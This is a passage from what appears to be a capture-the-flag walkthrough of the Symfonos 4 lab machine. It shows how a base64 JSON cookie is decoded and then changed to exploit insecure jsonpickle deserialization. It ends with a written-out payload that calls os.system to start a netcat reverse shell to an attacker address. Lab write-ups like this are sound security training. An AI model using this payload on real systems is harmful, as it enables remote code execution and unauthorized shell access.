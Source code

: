 
![](/assets/images/symfonos4/screenshot-10.png)
If we notice the cookie value is encoded in base64, we decode it and see that the data is in json format.

![](/assets/images/symfonos4/screenshot-11.png)

Then we modify the data slightly according to the specifications of the proof of concept, we import the os module and then we use the system method to execute commands from the system, in this case the netcat utility to obtain a reverse shell. 

```bash
username={"py/object": "app.User", "py/repr":"os/os.system(\"nc 192.168.179.1 443 -c bash\")"}
```